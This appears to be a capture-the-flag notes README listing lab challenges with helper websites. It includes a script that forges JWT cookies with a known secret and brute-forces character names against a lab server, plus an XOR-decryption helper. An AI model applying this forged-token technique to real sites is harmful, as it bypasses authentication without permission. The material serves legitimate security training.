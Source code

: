 
# Documentatie
> - `Site-uri`
> - `Script-uri`

| Labs                                         | Site          |
|-----------------------------------------------|----------------------------|
|     Bank_account      |-|
|      Binary     |https://toolbox.itsec.tamu.edu/|
|       Cool_Dude    |https://www.dcode.fr/|
|     Double_Oh_No      |https://en.wikipedia.org/wiki/MI6     |
|      Labyrinth     |-|
|     PING      |-|
|      Shattered     |-|
|      Sudoku     | https://sudokuspoiler.com/sudoku/sudoku9  // https://www.dcode.fr/|
|     Tolkien Black      |-|
|Friend| https://crackstation.net/|


## __Script-uri__

# Script Tolkien
```
import jwt

payload = {
    "character": "admin",
    "tegridy": "weed"
}
secret = "chinpokomon"

token = jwt.encode(payload, secret, algorithm="HS256")

print(token)**
```
----
```
import jwt
import subprocess

Target info
URL = "http://141.85.224.116:8903/tolkien-black"
SECRET = "chinpokomon"

Characters to test
characters = [
    "randy", "Randy", "randy_marsh", "Randy Marsh", "cartman", "stan", "kyle",
    "butters", "kenny", "towelie", "chef", "ike", "garrison", "tolkien",
    "gerald", "sharon", "jimmy", "timmy", "barbrady", "mr. mackey", "pc principal"
]

Error phrases we want to skip
bad_responses = [
    "Wrong secret!",
    "Did you forget something?",
    "Hey, hey, where's your tegridy?",
    "Which South Park character are you?"
]

for character in characters:
    payload = {
        "character": character,
        "tegridy": "weed"
    }

    token = jwt.encode(payload, SECRET, algorithm="HS256")
    if isinstance(token, bytes):
        token = token.decode()

    print(f"[*] Trying: {character}...")

    # Build the curl command
    curl_command = [
        "curl", "-s", "-X", "POST", URL,
        "-H", f"Cookie: jwt={token}"
    ]

    # Run the command
    result = subprocess.run(curl_command, capture_output=True, text=True)
    response = result.stdout.strip()

    # Print response and stop if it's not a known error
    if not any(err in response for err in bad_responses):
        print(f"\n Success with character: {character}")
        print(" Server Response:\n")
        print(response)
        break
```
# Script Sudoku  
```
def xor_decrypt(ciphertext, key):
    key_bytes = [ord(c) for c in key]
    key_len = len(key_bytes)

    def split_by_n(text, n):
        return [text[i:i+n] for i in range(0, len(text), n)]

    try:
        bytes_2digit = [int(b) for b in split_by_n(ciphertext, 2)]
    except ValueError:
        bytes_2digit = []

    bytes_3digit = []
    if len(ciphertext) % 3 == 0:
        try:
            bytes_3digit = [int(b) for b in split_by_n(ciphertext, 3)]
        except ValueError:
            bytes_3digit = []

    def xor_bytes(byte_list):
        result_chars = []
        for i, b in enumerate(byte_list):
            key_byte = key_bytes[i % key_len]
            decrypted = b ^ key_byte
            if decrypted < 32 or decrypted > 126:
                return None
            result_chars.append(chr(decrypted))
        return ''.join(result_chars)

    decrypted_2 = None
    if bytes_2digit:
        decrypted_2 = xor_bytes(bytes_2digit)

    decrypted_3 = None
    if bytes_3digit:
        decrypted_3 = xor_bytes(bytes_3digit)

    return decrypted_2, decrypted_3

ciphertext = "279831654961745923435269871983172465714586392652493187198327546547618239326954718"
key = "God"

decrypted_2, decrypted_3 = xor_decrypt(ciphertext, key)

print("Decrypted assuming 2-digit bytes:", decrypted_2)
print("Decrypted assuming 3-digit bytes:", decrypted_3)
```
----
----

